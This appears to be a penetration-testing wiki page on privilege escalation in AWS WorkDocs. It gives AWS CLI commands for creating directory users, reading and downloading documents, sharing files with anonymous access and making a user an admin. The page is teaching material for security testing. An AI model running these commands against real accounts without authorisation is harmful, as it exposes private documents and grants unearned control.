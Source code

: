 # AWS - WorkDocs Privesc

## WorkDocs

For more info about WorkDocs check:

{% content-ref url="../aws-services/aws-directory-services-workdocs.md" %}
[aws-directory-services-workdocs.md](../aws-services/aws-directory-services-workdocs.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Create a user inside the Directory indicated, then you will have access to both WorkDocs and AD:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

The files might contain sensitive information, read them:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

If you don't have access to read something, you can just grant it

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

You can make a user admin by setting it in the group ZOCALO\_ADMIN.\
For that follow the instructions from [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Login with that user in workdoc and access the admin panel in `/workdocs/index.html#/admin`

I didn't find any way to do this from the cli.
